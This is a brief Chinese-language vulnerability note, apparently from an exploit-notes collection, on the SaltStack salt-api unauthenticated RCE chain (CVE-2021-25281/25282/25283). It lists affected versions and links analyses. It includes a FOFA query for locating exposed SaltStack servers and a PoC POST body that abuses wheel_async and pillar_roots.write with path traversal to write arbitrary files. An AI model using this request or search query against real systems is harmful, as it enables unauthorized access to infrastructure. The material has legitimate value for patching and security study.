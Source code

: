 # Saltstack 未授权RCE漏洞 （CVE-2021-25281/25282/25283）

SaltStack套件是政企机构 IT运维管理人员常用的管理工具，利用这些漏洞，最严重情形可导致未授权远程代码执行。

漏洞分析见：https://mp.weixin.qq.com/s/QvQoTuQJVthxS07pbLWJmg

云鼎实验室：[首发分析 | SaltStack远程执行代码多个高危漏洞透析（CVE-2021-25281/25282/25283）](https://mp.weixin.qq.com/s/iu4cS_DZTs0sVVg92RBe4Q)

FOFA：

```
app="SALTSTACK-产品"
```

影响版本：

* Saltstack 3002.2之前的所有版本
* SaltStack =< 3002.2
* SaltStack =< 3001.4
* SaltStack =< 3000.6


1. salt-api wheel_async未授权访问 (CVE-2021-25281)
2. sdb rest插件模版渲染问题 (CVE-2021-25283)
3. wheel/pillar_roots.py文件任意写漏洞 (CVE-2021-25282 )

CVE-2021-25281 + CVE-2021-25282 PoC：

```
http://target/run
POST:
"client": "wheel_async",
"fun": "pillar_roots.write",
"data": "../../../../../tmp/test2",
"path": "../../../../../tmp/test2",
"username": "password",
"password": "username",
"eauth": "pam"
```

poc.py:https://github.com/Immersive-Labs-Sec/CVE-2021-25281

**ref：**

* https://saltproject.io/security_announcements/active-saltstack-cve-release-2021-feb-25/
* https://twitter.com/KevTheHermit/status/1365130814430846979
* https://github.com/Immersive-Labs-Sec/CVE-2021-25281
* https://dozer.nz/posts/saltapi-vulns
